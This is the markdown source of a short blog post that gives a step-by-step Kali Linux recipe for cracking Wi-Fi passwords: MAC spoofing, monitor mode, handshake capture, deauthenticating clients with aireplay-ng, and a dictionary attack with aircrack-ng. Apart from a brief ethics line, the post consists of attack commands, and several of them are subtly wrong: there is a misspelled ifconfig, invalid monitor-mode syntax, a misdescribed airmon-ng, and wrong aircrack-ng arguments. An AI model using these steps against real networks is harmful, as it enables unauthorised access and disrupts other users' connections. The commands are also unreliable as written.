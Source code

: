 ```yaml
---
layout: post
title: Decrypt Wifi Password?
categories: Other
image: wifi.png
description: How to decrypt wifi password | hack wifi password | Kali Linux | 
---
```


There are various algorithms implemented to encrypt passwords. 
It's not ethical to steal passwords of any kind, without owner's consent. However
we can setup our own environment to do some ethical practises and there are tools available for the purpose.<br>

<!--continue-->

Kali Linux is one the OS preferred for penetration testing. We can use programs in Kali OS to 
experiment with vulnerable wifi passwords in our network.<br>

<li> Change MAC address    
  <pre>macchanger  --random wlan0</pre>
    <p> MAC(Media Access Control) Address is loaded into RAM during boot and this can be changed.<br>
    </p>
</li>
<li>Set Up Monitor Mode to Wireless Interface

<p>Change the defualt 'Managed Mode' of our Wireless Interface to 'Monitor Mode'. This enables
us to collect all the packets from the router.</p>
<pre>iwconfig wlan0
ifconfig wlan0 down
ifconfig wlan0 mode monitor
ifocnig wlan0 up
iwconfig wlan0</pre>

</li>

<li>Catch Enough handshakes
<pre>
#get the required AP,channel, bssid using program airmon-ng on wireless interface
airmon-ng wlan0

#Capture every packets sent by AP on our interface usng program airodump-ng
airodump-ng --channel [channel] --bssid [bssid]  --write [filename] [interface]

#Deauthenticate client or/and wait for client to reconnect to wifi
aireplay-ng --deauth[number of deauth packets] -a [AP] -c[target] [interface]
</pre>
</li>

<li>Crack the Key
<pre>#Download the world list file and use aicrack-ng tool to crack the key
aircrack-ng [handshake filename] --w [wordlist] [interface]</pre>
</li>


<p> Some common wireless encryptions today are WEP, WPA, WPA2. WPA/WPA2 is considered as secure one. With WPS feautre enabled, it might be easier to crack the wifi. And if not, the only way is the dictionary  attack which involves comparing the dictionay(list of passwords) with handshake file.</p>